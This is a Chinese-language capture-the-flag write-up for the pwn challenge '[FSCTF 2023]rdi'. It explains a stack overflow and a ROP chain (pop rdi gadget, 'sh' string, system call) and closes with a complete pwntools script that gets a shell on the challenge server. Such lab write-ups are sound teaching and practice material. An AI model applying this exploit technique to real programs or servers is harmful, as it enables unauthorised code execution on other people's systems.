



## 基本信息

- 题目名称：[FSCTF 2023]rdi
- 题目链接：https://www.nssctf.cn/problem/4444
- 考点清单：ret2text，rop
- 工具清单：gdb，python-pwntools

- payloads：详见本文末尾

## 一、看到什么

-   程序基本信息，64位程序，仅开放NX保护



-   三个自定义函数（包含main）



## 二、想到什么解题思路

### 第一轮

-   read函数存在0xa0-0x80=0x20空间的栈溢出
-   通过修改main函数返回地址，重定向到gift函数
-   通过修改栈内空间[rbp-0x8]，写入"/bin/sh"

### 第二轮

-   回过神来发现read在main上，对于gift的栈不好修改，发现info里面存在"sh"字符串，改用rop
-   sys地址0x4006fb
-   pop_rdi地址待查找
-   "sh"字符串0x40080d（通过0x4007f4去掉前面的字符）

## 三、尝试过程和结果记录

-   $padding=8lines\times4words\times4bytes+2words\times4bytes=136bytes$
-   payload=padding*b'a'+p64(pop_rdi)+p64(sh_addr)+p64(sys)
-   查找pop_rdi地址为0x4007d3



-   sendline，成功getshell

## 四、Payload

```python
from pwn import *

lc = "./rdi"

rm = "node4.anna.nssctf.cn"
prt = 28200

elf = ELF(lc)
#p = process(lc)
p = remote(rm,prt)

sys = p64(0x4006fb)
pop_rdi = p64(0x4007d3)
sh_addr = p64(0x40080d)
padding = 136*b'a'
payload = padding + pop_rdi + sh_addr + sys

#context.terminal = ['tmux','splitw','-h']
#gdb.attach(p)
#pause()
p.recvuntil("answer:\n")
p.sendline(payload)

p.interactive()
```

